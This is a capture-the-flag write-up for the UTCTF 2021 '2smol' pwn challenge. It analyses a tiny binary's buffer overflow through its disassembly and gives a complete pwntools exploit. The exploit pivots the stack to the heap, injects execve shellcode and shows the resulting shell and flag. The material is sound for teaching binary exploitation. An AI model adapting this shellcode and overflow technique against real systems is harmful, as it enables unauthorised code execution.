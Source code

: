 ```yaml
---
layout: post
title: "[UTCTF 2021] 2smol"
author: Green-Avocado
---
```


## Challenge

```
I made this binary 2smol.

nc pwn.utctf.live 9998

by `hukc`
```

### Security measures:

```
-> % checksec --file=smol --output=csv
No RELRO,No Canary found,NX disabled,No PIE,No RPATH,No RUNPATH,Symbols,No,0,0,smol
```
### Functions:

```asm
[0x00401000]> afl
0x00401000    1 13           entry0
0x0040100d    1 22           main
0x00401023    1 33           loc._read
```

#### Disassembled main:

```asm
[0x00401000]> pdf @ main
            ; CALL XREF from entry0 @ 0x401000
┌ 22: int main (int argc, char **argv, char **envp);
│           ; var int64_t var_8h @ rbp-0x8
│           0x0040100d      55             push rbp
│           0x0040100e      4889e5         mov rbp, rsp
│           0x00401011      4883ec08       sub rsp, 8
│           0x00401015      488d7df8       lea rdi, [var_8h]           ; int64_t arg1
│           0x00401019      e805000000     call loc._read
│           0x0040101e      4889ec         mov rsp, rbp
│           0x00401021      5d             pop rbp
└           0x00401022      c3             ret
```

The `main` function calls `loc._read` and passes a pointer to `$rbp-0x8`, then returns.

#### Disassembled read:

```asm
[0x00401000]> pdf @ loc._read
            ; CALL XREF from main @ 0x401019
┌ 33: loc._read (int64_t arg1);
│           ; arg int64_t arg1 @ rdi
│           0x00401023      55             push rbp
│           0x00401024      4889e5         mov rbp, rsp
│           0x00401027      4883ec08       sub rsp, 8
│           0x0040102b      4889fe         mov rsi, rdi                ; arg1
│           0x0040102e      bf00000000     mov edi, 0
│           0x00401033      ba00020000     mov edx, 0x200              ; 512
│           0x00401038      b800000000     mov eax, 0
│           0x0040103d      0f05           syscall
│           0x0040103f      4889ec         mov rsp, rbp
│           0x00401042      5d             pop rbp
└           0x00401043      c3             ret
```

The `loc._read` function executes a syscall, `read(0, *buf, 0x200)`, where `*buf` is the pointer to a local variable in main.
As this will read more characters than the buffer size, we can overwrite the stored `$rbp` and `$rsp`, and 0x190 bytes after that.

## Solution

As NX is disabled, we can write and execute arbitrary code to memory.

I used code from [shellstorm](http://shell-storm.org/shellcode/files/shellcode-806.php).

```
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-- /home/user/Documents/ctf/2smol/smol
0x0000000000401000 0x0000000000402000 0x0000000000001000 r-x /home/user/Documents/ctf/2smol/smol
0x0000000000402000 0x0000000000403000 0x0000000000000000 rw- [heap]
0x00007ffff7ff9000 0x00007ffff7ffd000 0x0000000000000000 r-- [vvar]
0x00007ffff7ffd000 0x00007ffff7fff000 0x0000000000000000 r-x [vdso]
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
```

Both the heap and stack should have `rwx` permissions.
My machine prevents this, but this has been disabled to test the exploit.
Stack addresses are randomized at runtime, however the heap is not.
We can shift the location of our callstack onto the heap to write and execute our shellcode.

On the first read, we fill the buffer with 0x8 bytes, then we overwrite the saved `$rbp` with a location on the heap, and we overwrite the return address to point at the instruction before `loc._read` is called.
This allows us to call read again and write our shellcode to the heap.

On the second read, we fill the buffer, base pointer, and return address with anything.
Then we overwrite the return address to point the location our shell code will be place, followed by our shellcode.

Sending these payloads to the server gives us a shell where we can find and read the flag file.

## Exploit

```py
#!/usr/bin/env python3

from pwn import *

#p = process("./smol")
p = remote('pwn.utctf.live', 9998)

shellcode = b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

main = 0x0040100d
stack = 0x402500



context.terminal = ['tmux', 'splitw', '-h']

#gdb.attach(p, '''
#b*0x40101e
#''')



payload1 = b''
payload1 += b'A' * 0x8 #padding
payload1 += p64(stack) #rbp
payload1 += p64(main + 8) #rip
payload1 += b'B' * (0x200 - 0x8 * 3)

p.send(payload1)



payload2 = b''
payload2 += b'C' * 0x8 #padding
payload2 += b'D' * 0x8 #rbp
payload2 += p64(stack+0x10) #rip
payload2 += shellcode

p.send(payload2)



p.interactive()
```

```
-> % ./exploit.py                     
[+] Opening connection to pwn.utctf.live on port 9998: Done
[*] Switching to interactive mode
$ whoami
srop
$ ls
flag.txt
$ cat flag.txt
utflag{srop_xd}
$  
```

